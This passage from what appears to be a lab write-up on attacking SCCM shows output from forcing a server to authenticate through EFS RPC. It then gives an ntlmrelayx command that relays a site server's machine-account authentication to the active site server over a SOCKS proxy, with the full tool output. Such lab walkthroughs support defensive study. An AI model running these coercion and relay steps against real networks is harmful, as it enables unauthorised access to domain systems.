 ```
[-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
[+] OK! Using unpatched function!
[-] Sending EfsRpcEncryptFileSrv!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!

```


### NTLMRelayx
- Authentication from the *PASSIVE.INTERNAL.LAB* site server is caught and relayed from the attacker host to the *SCCM.INTERNAL.LAB* active site server. The `-socks` flag is used to hold the authenticated session open

```
┌──(adminservice)─(root㉿DEKSTOP-2QO0YEUW)-[/opt/impacket/examples]
└─# python3 ntlmrelayx.py -t 10.10.100.121 -smb2support -socks
Impacket v0.10.1.dev1+20230802.213755.1cebdf31 - Copyright 2022 Fortra

[*] Protocol Client SMB loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Running in relay mode to single host
[*] SOCKS proxy started. Listening at port 1080
[*] IMAPS Socks Plugin loaded..
[*] MSSQL Socks Plugin loaded..
[*] HTTP Socks Plugin loaded..
[*] HTTPS Socks Plugin loaded..
[*] SMB Socks Plugin loaded..
[*] IMAP Socks Plugin loaded..
[*] SMTP Socks Plugin loaded..
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
 * Serving Flask app 'impacket.examples.ntlmrelayx.servers.socksserver'
 * Debug mode: off
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
Type help for list of commands
ntlmrelayx> [*] SMBD-Thread-9 (process_request_thread): Received connection from 10.10.100.141, attacking target smb://10.10.100.121
[*] Authenticating against smb://10.10.100.121 as LAB/PASSIVE$ SUCCEED
[*] SOCKS: Adding LAB/PASSIVE$@10.10.100.121(445) to active SOCKS connection. Enjoy
[*] SMBD-Thread-10 (process_request_thread): Connection from 10.10.100.141 controlled, but there are no more targets left!
[*] SOCKS: Proxying client session for LAB/PASSIVE$@10.10.100.121(445)
```
